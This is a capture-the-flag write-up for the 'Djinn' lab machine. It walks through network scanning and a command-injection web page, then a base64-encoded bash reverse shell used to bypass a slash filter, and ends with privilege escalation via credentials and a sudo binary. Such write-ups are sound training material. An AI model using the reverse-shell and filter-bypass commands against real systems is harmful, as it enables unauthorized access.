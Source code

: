 # Djinn

# 1 Information gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![f84de650feb2a1309625aaff4adfb83d.png](./_resources/65c9ec4d9d6e436788affd3d537225e8.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.129 -oN full_service_enum-sC.txt`
![0dfa4145e322dba95aa646e7848b2736.png](./_resources/e718053a0f39427195f3cdb2b63156cd.png)
![4d9ee0e7c513b63ab9e43920753b0cfa.png](./_resources/fa593ae22bce4d649b5ca31f14f7d272.png)

`nmap -sV -sU -F 192.168.196.129 -oN udp-sC-sV.txt`

## 1.3 Web port 7331
### 1.3.1 Enum web content
`gobuster dir -u http://192.168.196.129:7331/ -w /usr/share/wordlists/dirb/big.txt -t 50 -f -o info2.txt` <- with added slashs, it don't returns results.

`gobuster dir -u http://192.168.196.129:7331/ -w /usr/share/wordlists/dirb/big.txt -t 50`
![137c31d8c64c55e91dc55f8509ba7b28.png](./_resources/2c1abbb4f93b4766a582e39cf03f966c.png)

### 1.3.2 Genie page
![73ee3a1a033ca9c5d2d52b4318328c7c.png](./_resources/d1b4456acb9a46668dbf48e7d859be44.png)

### 1.3.3 Wish page
![4fe4d5bc99c2ef38bb722919db346e2c.png](./_resources/cd4601967aa149438cc73d58f44a578e.png)
What is typed here is interpreted as linux terminal commands.

![f6b3387328509646f7c9b061e16361b3.png](./_resources/8286b0d038d34ef2ae002ccb6cfdef7a.png)

And returns as paragraph:
![e2f0685e61fb2338ae0e8c44ba9a337f.png](./_resources/c38985976d964523baa9f9f8d507f11e.png)

At this point, we cag get a reverse shell with python.


# 2 Exploitation with bypass filter
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
All reverse shells were blocked. Apparently the "/" character is identified and blocked.

An attempt to bypass by base64 encoding worked.

`echo "bash -i >& /dev/tcp/192.168.196.121/4446 0>&1" | base64` <- on kali linux

`echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE5Ni4xMjEvNDQ0NiAwPiYxCg==" | base64 -d | bash` <- web target

![c926b53dcca77327de261371bdd5ae94.png](./_resources/7de7bf58eb6d426fa8781804e3fa845d.png)


# 3 Post-exploitation
![b383c43dd66b0db592da7b1f6cf54729.png](./_resources/8bfeb1670f7c4f579109be9dc515a1d4.png)

![07574321ad81f588af3baec59f7dd79e.png](./_resources/ddd5e85a4d234e808e4253af4a144dbf.png)

Here we can see the blocking method used, a blacklist.

Also there is a path with creeds:
`/home/nitish/.dev/creds.txt`

## 3.1 Nitish user
![aaf0cb7d10de10a197e5dacca4a33986.png](./_resources/13541d77403a41089cfe9d63609e82de.png)

## 3.2 Sam user
LinEnum.sh returns some good information:
![1edc98a678d34d2b5a4429915af11012.png](./_resources/a14c936000604e24be4d02ea01b1aac2.png)

![9ee8cb7829679ad52076e567d0bbc42e.png](./_resources/42142b9985ac4cd2a84fb49737257f7a.png)
![e8c813fb3c268fec928ddf195c0bc9c3.png](./_resources/5a720de76a2646f09b6f47939d7cdeb4.png)

![6f0504c7d3117be56275b846c57a04a4.png](./_resources/9131bcfeea654d8d83a11b9fddda923f.png)

After try different methods to get shell, none results.

### 3.2.1 Basic bin analisys and shell
The first way is to use the `strings` command to get some information. For that you need to download the binary to the Kali machine and use the command:
`strings genie`

![74bc7100322fa43b70786f2eafb09b79.png](./_resources/1f8738bdaf5348a58704eefb7ae629fa.png)

`sudo -u sam /usr/bin/genie -cmd test`
![7edf8421a3b7b63bb92645dd7d352d93.png](./_resources/ee6c7ca98ef2498ca964fb80bee54383.png)

## 3.3 Getting root
![3695c6c16ce44f8dfad4116e6bb3b6b7.png](./_resources/7833d0bbe56d4d6d849a59c6be42c398.png)

What works here, was set the option `2` and after type `num` (apparently a variable). Done, it's possible get root.
![1e94958da014e596d207797e8f0ccf28.png](./_resources/79dba6701e5d423cb26319b0efb2b889.png)
